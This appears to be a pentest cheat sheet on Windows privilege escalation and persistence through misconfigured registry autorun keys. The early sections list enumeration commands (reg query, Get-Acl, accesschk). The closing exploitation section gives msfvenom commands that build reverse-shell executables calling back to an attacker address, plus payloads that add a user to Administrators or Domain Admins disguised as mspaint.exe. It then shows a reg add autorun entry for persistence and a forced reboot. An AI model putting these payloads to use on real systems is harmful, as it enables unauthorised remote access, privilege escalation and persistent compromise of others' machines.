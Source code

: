 ### Overview

This method leverages Windows Registry autorun that allow programs to execute automatically at system startup. if permissions are misconfigured, a low privileged user can insert or modify entries that run with higher privileges upon the next user logon.

### Check System Configurations

```cmd
msconfig
```

---

### Query Autorun Registry Locations

This registry keys control applications that launch at system startup. if writable by low-privileged users, they can be exploited for persistence or privilege escalation

#### Machine-Wide Autorum Leys

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunService
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceService
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunService
```

```cmd
reg query HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnceService
```


#### Current User Autorun Keys

```cmd
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

```cmd
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

```cmd
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
```

---

### Useful Tools For Enumeration

*   PowerShell

#### Get Registry Key Property

Retrieves the properties (values and data) of a specified registry key path. Replace ``<registry-key-path>`` with a valid path like ``HKLM:\...`` or ``HKCU:\...``

```powershell
Get-ItemProperty -Path <registry-key-path>
```

#### Query Global Autorun Entries

List programs that are set to run at system startup for all users. Located under ``HKEY_LOCAL_MACHINE``

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
```

#### List SubKeys Under CurrentVersion

Displays all subkeys under ``currentVersion`` key. Useful for Discovering additional configuration locations

```powershell
Get-ChildItem -Path <registry-key-path>
```

#### Check Registry Key Permissions (ACL)

```powershell
Get-Acl -Path <registry-key-path> | Format-List
```

*   Reg.exe

```cmd
reg query <registry-Key>
```

*   PowerUp: Used ofr automated privilege escalation checks
*   Autoruns (Sysinternals) : [Autoruns](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns)

```cmd
autoruns64.exe
```

*   Use the **Logon** tab to view startup entries
*   Accesschk (Systenternals) : [AccessChk]()

```cmd
accesschk64.exe -wvu " C:\Program Files\any_program"
```

---

### Inspecting ACLs and Permissions

#### Launching powershell with Execution Policy Bypass

```cmd
powershell.exe -ep bypass
```

#### Check Folder or File Permission

```powershell
Get-Acl "C:\Program Files\My Scripts\" | Format-List
```

```powershell
Get-Acl "C:\Program Files\My Scripts\Delete_all_temp_files.bat"
```

```powershell
Get-Acl "C:\Program Files\My Scripts\Delete_all_temp_files.bat" | fl
```

```powershell
Get-Acl "C:\Tools"
```

```powershell
Get-Acl "C:\Windows" | fl
```
```powershell
Get-Acl "C:\inetpub\wwwroot\phpinfo.php" | Format-List
```

```powershell
Get-Acl "C:\Temp\test.log" | Format-List -Property PSPath, Sddl
```

#### Change Registry Key Permissions

```powershell
Get-Acl -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" | Format-List
```

```powershell
Get-Acl "C:\Program Files\My Scripts\" | Format-List
```

```powershell
Get-Acl  "HKLM:\System\CurrentControlSet\Control" | Format-List
```

---

### Exploitation Steps

#### 1. Generate Custom Payload

**Reverse Shell Example**

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

**Encoded x64 Reverse Shell**

```bash
msfvenom --platform windows --arch x64 --payload windows/shell/reverse_tcp LOST=192.168.29.218 LPORT=443 --encoder x64/xor --iteration 9 -f exe --out rshell.exe
```

**Add User to Admin Group**

```bash
msfvenom -p windows/exec CMD='net localgroup administrators u1 /add' -f exe -o mspaint.exe
```

```bash
msfvenom -p windows/exec CMD='net group "Domain Admins" u1 /add /DOMAIN' -f exe -o mspaint.exe
```

#### 2. Deploy Payload

```cmd
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

#### 3. Pegistry Autorun

```cmd
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v rshell /t REG_EXPAND_SZ /f /d C:\users\Public\rshell.exe
```

#### 4. Reboot System

```cmd
shutdown /r /t 0 /f
```